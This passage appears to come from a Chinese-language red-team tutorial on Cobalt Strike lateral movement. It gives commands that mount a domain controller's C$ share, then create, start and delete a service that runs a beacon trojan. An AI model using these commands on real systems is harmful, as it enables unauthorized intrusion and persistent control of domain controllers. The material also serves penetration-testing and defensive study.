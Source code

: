 [![](assets/1702372940-9cb2f0aba89b2bacb6f03617b0b7ba49.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/32.png)

然后将此监听器`(内网代理)`生成的木马放到web主机，创建服务运行上线CS

```bash
# 连接到DC c盘
shell net use \\WIN-A5GPDCPJ7OT\c$

# 向DC创建一个服务
sc \\WIN-A5GPDCPJ7OT create beacon1 binPath= "C:\beacon1.exe" start= auto

# 启动服务
sc [服务器名称] start 服务名称 [服务启动参数]
sc \\WIN-A5GPDCPJ7OT start beacon1

# 删除服务
shell sc \\WIN-A5GPDCPJ7OT delete dcbindshell
```
